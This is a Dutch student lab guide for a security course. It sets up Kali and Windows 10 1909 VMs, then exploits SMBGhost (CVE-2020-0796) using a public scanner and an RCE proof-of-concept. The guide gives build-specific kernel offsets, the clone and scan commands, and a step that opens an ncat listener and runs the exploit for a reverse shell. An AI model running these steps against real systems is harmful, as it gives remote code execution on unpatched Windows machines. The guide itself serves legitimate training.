



# Handleiding NPE 

SMBGhost Vulnerability  
CVE-2020-0796
-----------------------------
Doel: Remote Excecution   
Target: Windows 10-1909   
Aanval: Kali Linux  
-----------------------------
Team:
- Demi De Fré   
- Abdul Rehman Shafaquet    
- Arthur Neirynck  

### Algemeen
Alle informatie en documentatie is beschikbaar op onze github repo:
[Github team](https://github.com/abdulnsh/cybersecurity_vr_opdracht).

## Deployment stappenplan

### Stap 1: Downloaden ISO & VDI
* Download het .vdi bestand voor de [Kali Linux](https://www.osboxes.org/kali-linux/) VM.
* Download het .ISO bestand voor de [Windows 10-1909](https://archive.org/download/win-10-1909-english-x-64) VM.  

### Stap 2: Vboxmanage automatisatie script's 
* Open een command prompt naar keuze.
* Run het bash script `./kali.sh` om de Kali Linux VM aan te maken.
* Run het bash script `./windwos1909.sh` om de Windows VM aan te maken.

### Stap 3: Inloggen op de VM's
* Kali inloggegevens (default)
* username: osboxes
* wachtwoord: osboxes.org
* Bij de windows zijn er geen inloggegevens nodig.


## Cheatsheet aanval

### IP-tabel

| VM              | IP Address   |
| ----------------| ------------ |
| Windows 10-1909 | 192.168.1.17 |
| Kali Linux VM   | 192.168.1.20 |

## Inleiding

De scripts die we gebruiken voor de aanval zijn beschikbaar op onze [Github](https://github.com/abdulnsh/cybersecurity_vr_opdracht).  

Hier vermelden we toch voor de zekerheid onze gebruikte bronnen: 
- [RCE-script](https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master)
- [Vulnerability Scanner](https://github.com/ButrintKomoni/cve-2020-0796)
- [Extra](https://github.com/jiansiting/CVE-2020-0796-Scanner) (niet nodig, ter info)

### Offsets informatie
Voor elke versie van Windows 10 hebben we eerst hun offsets nodig. De offsets zijn specifieke waarden dat gebruikt moeten worden in het main Python script ('SMBLeedingGhost.py') voor de exploit. De offsets worden dan gebruikt om het main script aan te passen om een successvolle RCE uit te voeren.  

calculate_target_offsets.bat is een script dat die offsets kan berekenen en die gelden voor elke Windows 10 die dezelfde versie runt. Hier zijn enkele offset-waarden:

| Windows 10 (Version 1909) Builds | V10.0.18363.418 | V10.0.18363.535 - V10.0.18363.628 | V10.0.18363.693 | V10.0.18363.752 | V10.0.18363.365 |
| -------------------------------- | --------------- | --------------------------------- | --------------- | --------------- | --------------- |
| srvnet!SrvNetWskConnDispatch     | 0x2D170         | 0x2D170                           | 0x2D170         | 0x2D170         | 0x2D170         |
| srvnet!imp_IoSizeofWorkItem      | 0x32210         | 0x32210                           | 0x32210         | 0x32210         | 0x32210         |
| srvnet!imp_RtlCopyUnicodeString  | 0x32288         | 0x32288                           | 0x32288         | 0x32288         | 0x32288         |
| nt!IoSizeofWorkItem              | 0x12C380        | 0x12C400                          | 0x6D7A0         | 0x12C410        | 0x12C370        |
| nt!MiGetPteAddress               | 0xBADC8         | 0xBA9F8                           | 0xF1D28         | 0xBA968         | 0xBAFA8         |

Voor onze versie (18363.365) hebben we deze nodig :

- 'srvnet!SrvNetWskConnDispatch': 0x2D170,
- 'srvnet!imp_IoSizeofWorkItem': 0x32210,
- 'srvnet!imp_RtlCopyUnicodeString': 0x32288,
- 'nt!IoSizeofWorkItem': 0x12C370,
- 'nt!MiGetPteAddress': 0xBAFA8

### Stap 1: Git clone op Kali Linux 
* Clone de volgende github repository in de Desktop :

1. `cd Desktop`
2. `git clone https://github.com/ButrintKomoni/cve-2020-0796` (scanner)
3. `git clone https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master` (RCE exploit)
```
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ tree
.
├── CVE-2020-0796-RCE-POC
│   ├── README.md
│   ├── SMBleedingGhost.py              - > dit is onze main script voor RCE
│   ├── calc_target_offsets.bat
│   ├── demo.gif
│   ├── smbghost_kshellcode_x64.asm
│   └── tools
│       ├── cdb.exe
│       ├── dbghelp.dll
│       ├── dumpbin.exe
│       ├── link.exe
│       ├── msvcp140.dll
│       ├── symsrv.dll
│       ├── tbbmalloc.dll
│       ├── vcruntime140.dll
│       └── vcruntime140_1.dll
└── cve-2020-0796
    ├── README.md
    └── cve-2020-0796-scanner.py            -> dit is onze scanner

4 directories, 16 files
```

### Stap 2: Vulnerability check
* We controleren eerst of de target (Windows 10-1909) vulnerable is met een [python scanner script](https://github.com/abdulnsh/cybersecurity_vr_opdracht/blob/main/aanval_script/scanner/cve-2020-0796-scanner.py).  
* Parameter = ip van target
```
┌──(osboxes㉿osboxes)-[~/Desktop/cve-2020-0796]
└─$ python3 cve-2020-0796-scanner.py 192.168.1.17
Vulnerable
```

### Stap 3: Remote excecution uitvoeren
* Open een terminal op de Kali Linux en voer de volgende commando's uit.
* `ncat -lvp <port>` : Dit zal onze toegang zijn naar onze windows (dit kan ncat -lvp 1234 zijn)
* `SMBleedingGhost.py <target_ip> <reverse_shell_ip> <reverse_shell_port>`
* `target_ip` = 192.168.1.17  
  `reverse_shell_ip` en `reverse_shell_port`= ip address en poort waarop ncat luistert.
* Het commando ziet er dus als volgt uit: `python3 SMBleedingGhost.py 192.168.1.17 192.168.1.20 1234`

### Stap 4: Resultaat
* Na een tijdje zal de ncat terminal waarop er geluisterd wordt, veranderen naar een Windows 10 shell.
* Nu heb je vanop afstand toegang, via een cmd, tot de target en kan je willekeurige code uitvoeren.








